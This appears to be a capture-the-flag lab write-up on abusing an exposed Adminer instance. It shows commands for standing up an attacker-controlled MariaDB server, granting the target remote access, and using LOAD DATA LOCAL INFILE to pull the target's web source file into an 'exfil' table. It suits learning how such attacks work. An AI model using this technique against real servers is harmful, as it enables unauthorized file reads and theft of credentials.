


____

Adminer (formerly phpMinAdmin) is _a full-featured database management tool written in PHP_



https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f

# Configure MySQL

```bash
sudo apt install default-mysql-server
```

I can start the service with `service mysql start`. The config files are in `/etc/mysql`.

```bash
netstat -antp | grep 3306
```

Change bind-address to tun0 address,

```bash
grep -r 127.0.0.1 /etc/mysql/
/etc/mysql/mariadb.conf.d/50-server.cnf:bind-address           = 127.0.0.1
```

```bash
service mysql restart
```


Host 'admirer.htb' is not allowed to connect to this MariaDB server

https://confluence.atlassian.com/jirakb/configuring-database-connection-results-in-error-host-xxxxxxx-is-not-allowed-to-connect-to-this-mysql-server-358908249.html

```sql
MariaDB [(none)]> GRANT ALL PRIVILEGES ON *.* TO root@10.10.10.187 IDENTIFIED by 'dani' WITH GRANT OPTION;
```

```sql
CREATE DATABASE test;
USE test;
CREATE TABLE exfil (data VARCHAR(256));
```

login with root:dani


## File read

```sql
LOAD DATA LOCAL INFILE '/var/www/html/index.php'
INTO TABLE test.exfil
FIELDS TERMINATED BY "\n"
```

```SQL
SELECT * FROM test.exfil
```
